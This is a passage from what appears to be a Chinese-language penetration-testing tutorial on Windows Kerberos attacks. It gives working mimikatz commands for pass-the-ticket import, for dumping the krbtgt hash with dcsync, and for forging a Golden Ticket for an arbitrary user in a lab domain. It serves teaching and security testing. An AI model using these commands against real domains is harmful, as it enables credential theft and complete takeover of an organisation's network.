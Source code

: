 执行：

```
mimikatz "kerberos::ptt C:\test\[0;2d87a]-2-0-40e00000-a@krbtgt-TEST.LOCAL.kirbi"

```

如图，导入成功![Alt text](http://drops.javaweb.org/uploads/images/d47453ca79bb6e0292a8ff45333983df6cd20d6a.jpg)

查看是否有域控权限，如图![Alt text](http://drops.javaweb.org/uploads/images/8316d8a8409a1f2f5c347dda0317e3aabef030cd.jpg)

> **Tips：**
> 
> 1.  64位系统使用ptt功能要用32位的mimikatz，如果用64的mimikatz，那么无法导入Ticket
> 2.  这种方式导入的Ticket默认在10小时以内生效

0x04 Golden Ticket
==================

* * *

每个用户的Ticket都是由krbtgt的密码Hash来生成的，那么，我们如果拿到了krbtgt的密码Hash，不就可以随意伪造Ticket了吗？

实际上只要拿到了域控权限，在上面就可以很容易的获得krbtgt的Hash值，再通过mimikatz即可生成任意用户任何权限的Ticket，也就是Golden Ticket

### 1、导出krbtgt的Hash

在域控上执行

```
mimikatz log "lsadump::dcsync /domain:test.local /user:krbtgt"

```

生成mimikatz.log记录输出，使用log输出是为了方便复制Hash值

如图:![Alt text](http://drops.javaweb.org/uploads/images/1104a160a14d532b5b6b02dcbb17ad3677b02451.jpg)

找到如下信息：

```
/domain：test.local
/sid:S-1-5-21-4155807533-921486164-2767329826 
/aes256:af71a24ea463446f9b4c645e1bfe1e0f1c70c7d785df10acf008106a055e682f

```

### 2、生成Golden Ticket

伪造的用户设置为god,执行

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 
/aes256:af71a24ea463446f9b4c645e1bfe1e0f1c70c7d785df10acf008106a055e682f /user:god 
/ticket:gold.kirbi"

```

